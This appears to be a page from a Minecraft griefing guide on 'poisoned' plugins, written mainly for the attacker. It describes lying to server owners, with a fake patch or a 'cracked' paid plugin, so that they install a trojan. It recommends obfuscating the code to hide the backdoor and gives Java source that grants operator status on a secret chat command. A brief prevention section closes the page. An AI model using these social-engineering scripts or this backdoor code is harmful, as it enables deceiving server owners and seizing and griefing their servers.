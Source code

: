 # Poisoned Plugin

**Explanation**

A poisoned plugin (also called a backdoored or trojan plugin) is a plugin that can be used to gain yourself administrator privileges on a Minecraft server. The idea is to trick the server owner or administrator to install a malicious plugin on their server. How do you do that? This requires some social engineering.

A trojan is a piece of malware that looks legitimate, but it's purpose and execution is malicious. The term is derived from the Ancient Greek story of the deceptive Trojan Horse that led to the fall of the city of Troy. The Greeks built a wooden horse and gave it to the Troys, making them think they had surrendered. The Troys accepted the horse and moved it inside of the city. What they didn't know was that the horse was hollow and filled with Greek soldiers, ready to slay.

You can make the server owner or administrator install the plugin by first finding an exploit or bug on the server. This could e.g. be a crash exploit. Tell the owner that you discovered the exploit, and you have a patch for it. Send them the legit-looking plugin, and make them install it on the server. When it's installed, you can then use it's feature to gain OP and grief the server.

An other way to make them intall it, is by telling them that you've got a cracked version of a paid plugin. E.g. Advanced Anti Cheat (AAC).

This griefing method requires a little bit of knowledge in Java programming, as you need to develop your own plugin.

If you know how to script scripts using Skript or Denizen, you can obtain the same result. Of course you need to hide the code better e.g. by obfuscating it (make the code look confusing), as the server owner or administrator can easily read it. Same goes for Java plugins. You can obfuscate Skript scripts by using [Obfuskator](https://www.spigotmc.org/resources/skript-tool-obfuskator-jar-encapsulation.60791), and [ProGuard](https://sourceforge.net/projects/proguard) for Java plugins.

Here's an example of what a very simple unobfuscated poisoned plugins code in Java could look like:
```java
public class main extends JavaPlugin implements Listener {

    public void onEnable() {
        this.getServer().getPluginManager().registerEvents((Listener)this, (Plugin)this);
    }
    
    @EventHandler
    public void onPlayerChat(PlayerChatEvent event) {
        if (event.getMessage().startsWith("#magic")) {
            event.setCancelled(true);
            event.getPlayer().setOp(true);
        }
    }
}
```

**Prevention**

Always make sure the plugins and scripts you installed on your server are legitimate, and not backdoored.

Don't trust random people who tries to make you install a plugin or script on your server. If in doubt, use a Java decompiler to read the code of the plugin, and any text editor for scripts. If the code is obfuscated, and you're not 100% sure if the plugin or script is legitiamte, don't install it on your server.